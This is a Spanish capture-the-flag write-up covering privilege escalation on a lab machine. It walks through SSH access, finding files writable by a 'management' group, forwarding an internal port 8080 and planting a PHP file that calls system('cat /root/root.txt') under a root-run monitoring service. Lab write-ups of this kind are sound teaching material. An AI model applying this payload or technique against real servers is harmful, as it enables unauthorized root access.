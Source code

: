 ```shell
ssh albert@10.10.11.44 
```

## Escalada de privilegios

Lo primero es enumerar en los grupos que se encuentra este usuario y hay un grupo que llama la atención es management

```shell
id 
uid=1000(albert) gid=1000(albert) groups=1000(albert),1001(management)
```
Si buscamos aquellos fichero que tenga asignado este grupo nos encontramos con los siguientes:

```shell
find / -group management 2>/dev/null
```
Encontramos dos ficheros interesantes:

```shell
/opt/website-monitor/config
/opt/website-monitor/config/configuration.php
```
Además de intentar ver si encuentro algún puerto abierto de la máquina que sea interesante:
```shell
ss -nltp
```

```shell
State       Recv-Q       Send-Q             Local Address:Port             Peer Address:Port      Process      
LISTEN      0            128                      0.0.0.0:22                    0.0.0.0:*                      
LISTEN      0            4096                   127.0.0.1:8080                  0.0.0.0:*                      
LISTEN      0            4096               127.0.0.53%lo:53                    0.0.0.0:*                      
LISTEN      0            128                         [::]:22                       [::]:*                      
LISTEN      0            511                            *:80                          *:*                      
```

Encuentro un servidor web corriendo en el 8080 por lo tanto con ssh voy a realizar port forwarding a mi maquina de la siguiente manera:

```shell
ssh albert@10.10.11.44 -L 8080:127.0.0.1:8080
```

Finalmente en ese directorio puedo crear un documento `test.php` que sea interpretado y me devuelva la flags de root porque el programa de monitors se esta ejecutando como root.

De esta manera:
```php
<?php system('cat /root/root.txt'); ?>
```

Por lo tanto cuando accedo a la url `http://localhost:8080/monitors/test.php` obtengo la flag




